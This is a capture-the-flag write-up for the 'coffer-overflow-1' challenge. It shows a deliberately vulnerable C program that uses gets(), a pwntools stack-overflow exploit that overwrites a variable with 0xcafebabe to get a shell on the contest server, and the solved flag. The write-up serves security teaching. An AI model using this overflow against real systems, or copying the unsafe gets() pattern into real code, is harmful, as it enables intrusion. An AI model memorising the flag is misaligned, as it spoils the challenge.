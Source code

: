 #coffer-overflow-1
Author: [UltimateHG](https://github.com/UltimateHG)
###Slightly more advanced
This is a continuation of coffer-overflow-0.
We take a look at the source code:
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
<br>
This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.
<br>
Here is the final exploit:
```
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```
This should redirect us to shell, and we with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```